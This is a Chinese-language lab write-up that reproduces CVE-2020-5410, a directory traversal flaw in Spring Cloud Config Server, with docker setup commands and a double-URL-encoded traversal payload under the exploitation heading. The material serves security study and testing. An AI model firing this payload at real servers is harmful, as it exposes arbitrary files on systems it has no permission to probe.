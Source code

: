 ### Spring Cloud Config 目录穿越漏洞(CVE-2020-5410)复现

Spring Cloud Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本以及较旧的不受支持的版本允许应用程序通过spring-cloud-config-server模块提供任意配置文件。恶意用户或攻击者可以使用特制URL发送请求，这可能导致目录遍历攻击

影响版本：

Spring Cloud Config: 2.2.0 to 2.2.2

Spring Cloud Config: 2.1.0 to 2.1.8

<br>

#### 环境搭建：

CentOS7（192.168.2.101）

拉取镜像

```bash
docker pull hyness/spring-cloud-config-server:2.1.6.RELEASE 
```

查看镜像：

```bash
docker images
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220104100613.png)

创建容器并运行

```bash
docker run -it --name=spring-cloud-config-server \
-p 8888:8888 \
hyness/spring-cloud-config-server:2.1.6.RELEASE \
--spring.cloud.config.server.git.uri=https://github.com/spring-cloud-samples/config-repo
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220104101312.png)

访问192.168.2.101:8888

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220104101226.png)

<br>

#### 漏洞利用

payload：

```
/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..	%252Ftmp%23foo/development
```

<br>

#### 漏洞分析

参考：[CVE-2020-5405 Spring Cloud Config Server 目录穿越 - FreeBuf网络安全行业门户](https://www.freebuf.com/news/232744.html)